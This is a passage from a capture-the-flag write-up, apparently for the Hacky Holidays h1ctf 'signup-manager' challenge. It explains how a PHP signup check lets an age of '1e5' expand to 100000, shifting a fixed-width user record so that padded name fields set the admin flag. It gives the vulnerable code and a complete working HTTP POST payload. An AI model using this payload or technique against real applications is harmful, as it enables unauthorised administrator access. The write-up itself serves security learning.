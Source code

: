 ```
    }
}
include_once($page);
```

When performing a new sign up, the code checked for some constraint on the POST parameters and returned an error in case they were not respected. Furthermore, if all the constraints were satisfied the PHP file created a new user inside the users.txt file. To create an admin user, it was necessary to have an "Y" as last character in the relative user text file line. Therefore, if it was possible to bypass one of the performed check and add more characters, it would have been possible to tamper the application logic and create a new user line with the "Y" character at the end.  The vulnerable check resulted in the following one. 

```
if (!is_numeric($_POST["age"])) {
                $errors[] = 'Age entered is invalid';
}
if (strlen($_POST["age"]) > 3) {
                $errors[] = 'Age entered is too long';
}
$age = intval($_POST["age"]);
```

In this case, the previous lines turned a value like 1e5 (of exactly three characters) into 100000.  Therefore, when a new user was added, it was possible to play with the firstname and lastname POST parameters to insert some Y at the end.  The line would have then been stripped to 113 characters with the last statement. 

```
$line .= str_pad( $age,3,"#");
$line .= str_pad( $firstname,15,"#");
$line .= str_pad( $lastname,15,"#");
$line .= 'N';
$line = substr($line,0,113);
```

A working HTTP payload was the following:
```
POST /signup-manager/ HTTP/1.1 
Host: hackyholidays.h1ctf.com 
Connection: close 
Content-Length: 122 
Cache-Control: max-age=0 
sec-ch-ua: "Google Chrome";v="87", " Not;A Brand";v="99", "Chromium";v="87" 
sec-ch-ua-mobile: ?0 
Upgrade-Insecure-Requests: 1 
Origin: https://hackyholidays.h1ctf.com 
Content-Type: application/x-www-form-urlencoded 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_0_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9 
Sec-Fetch-Site: same-origin 
Sec-Fetch-Mode: navigate 
Sec-Fetch-User: ?1 
Sec-Fetch-Dest: document 
Referer: https://hackyholidays.h1ctf.com/signup-manager/ 
Accept-Encoding: gzip, deflate 
Accept-Language: en-US,en;q=0.9,it-IT;q=0.8,it;q=0.7,zh-CN;q=0.6,zh;q=0.5 

action=signup&username=BYYYYYYYYYYYYYY&password=BYYYYYYYYYYYYYY&age=1e5&firstname=AYYYYYYYYYYYYYY&lastname=AYYYYYYYYYYYYYY
```
